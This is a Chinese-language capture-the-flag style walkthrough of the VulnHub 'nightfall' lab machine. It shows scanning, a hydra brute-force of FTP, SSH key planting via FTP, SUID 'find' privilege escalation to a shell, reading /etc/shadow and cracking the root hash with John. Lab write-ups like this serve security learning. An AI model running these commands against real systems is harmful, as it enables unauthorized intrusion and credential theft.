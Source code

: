 ```yaml
---
title: nightfall渗透测试
date: 2019-09-10 19:03:41
tags:
---
```


# 背景知识
1. [什么是SAMBA](https://www.ctolib.com/docs/sfile/vbird-linux-server-3e/114.html)
2. [enum4linux](https://hackfun.org/2016/10/23/Kali-Linux%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86%E4%B9%8Benum4linux/)
3. [uid之ruid，euid，suid](https://cysecguide.blogspot.com/2016/10/difference-among-ruid-euid-suid.html)
    - https://brucechen7.github.io/2014/11/14/2014-11-14-euid-ruid-euid/
    - https://unix.stackexchange.com/questions/191940/difference-between-owner-root-and-ruid-euid
    - https://www.jianshu.com/p/23f2f2be2b29
    - https://www.cnblogs.com/limingluzhu/p/5702486.html
    - https://www.anquanke.com/post/id/86979 (推荐)
4. [/etc/passwd和/etc/shadow的区别](http://www.chinastor.com/os/linux/092034W22016.html)

# 攻击步骤
1. 发现主机
```
# netdiscover
Currently scanning: 172.26.118.0/16   |   Screen View: Unique Hosts                                                                                                                                                                                                           
 244 Captured ARP Req/Rep packets, from 27 hosts.   Total size: 14100                                                                          
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.188.14.179   08:00:27:5a:52:6b    108    6480  PCS Systemtechnik GmbH                                                                      
 10.188.144.178  14:ab:c5:9f:29:5f     18    1008  Intel Corporate                                                                             
 10.188.88.79    30:3a:64:f6:b4:40     21    1176  Intel Corporate                                                                       
```
2. 扫描端口, 发现可用ftp服务
```
# nmap -A xx.xxx.xx.x
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-10 15:36 EDT
Nmap scan report for 10.188.14.179
Host is up (0.00037s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         pyftpdlib 1.5.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.188.14.179:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:25:e1:4f:41:c6:0f:be:31:21:7b:27:e3:af:49:a9 (RSA)
|   256 38:15:c9:72:9b:e0:24:68:7b:24:4b:ae:40:46:43:16 (ECDSA)
|_  256 9b:50:3b:2c:48:93:e1:a6:9d:b4:99:ec:60:fb:b6:46 (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 12
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, Support41Auth, Speaks41ProtocolOld, FoundRows, DontAllowDatabaseTableColumn, SupportsTransactions, SupportsLoadDataLocal, Speaks41ProtocolNew, LongColumnFlag, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, InteractiveClient, IgnoreSigpipes, SupportsCompression, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: *eBUf$|gmnay^K<,f<;S
|_  Auth Plugin Name: mysql_native_password
MAC Address: 08:00:27:5A:52:6B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: NIGHTFALL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m58s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: NIGHTFALL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: nightfall
|   NetBIOS computer name: NIGHTFALL\x00
|   Domain name: nightfall
|   FQDN: nightfall.nightfall
|_  System time: 2019-09-10T15:36:37-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-10T19:36:37
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.37 ms 10.188.14.179

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.43 seconds
```
3. 发掘系统的信息
```
enum4linux xx.xx.xx.x
```
4. 暴力破解ftp密码
```
hydra -l matt -P /usr/share/wordlists/rockyou.txt xx.xx.xx.xx ftp -e nsr
```
5. 破解得到用户`matt`的密码为`cheese`, 用其登录ftp
6. 创建`~/.ssh`文件夹
```
ftp> mkdir .ssh
```
6. 本地创建ssh的key并将`id_rsa.pub`复制一份重命名为`authorized_keys`
```
ssh-keygen
cp ~/.ssh/id_rsa.pub ~/authorized_keys
```
8. nightfall上使用ftp上传本地的`~/.ssh/id_rsa.pub`到nightfall的新创建的`~/.ssh`文件夹下
```
ftp>cd .ssh
ftp>put authorized_keys
```
9. 直接登录matt账号
```
ssh matt@xx.xx.xxx.x
```
10. 查找具有SUID权限的文件
```
find / -perm -u=s -type f 2>/dev/null
```
11. 运行类find命令提权
```
cd /scripts
./find . -exec /bin/sh -p \; -quit
```
12. nightfall家目录下创建.ssh文件夹, 类似上传`authorized_keys`文件, 然后ssh登录nightfall账号
13. 读取shadow文件中的加密密码
```
sudo -u root cat /etc/shadow
```
14. 将root的**加密密码**复制到本地`pwd.txt`文件并使用john the ripper来破解密码
```
john pwd.txt
```
15. 使用找到的密码登录root破解完成

参考链接
1. [nightfall VM download](https://www.vulnhub.com/entry/sunset-nightfall,355/)
1. https://www.hackingarticles.in/sunset-nightfall-vulnhub-walkthrough/

some other notes
```
nmap -sP -n -oX results.txt 10.188.1.1/16
grep -Eo 'addr=".*?" addrtype="ipv4"' results.txt | awk -F '"' '{print $2}' > ips.txt
nmap -sS -O -A -oX details.txt -iL ips.txt
```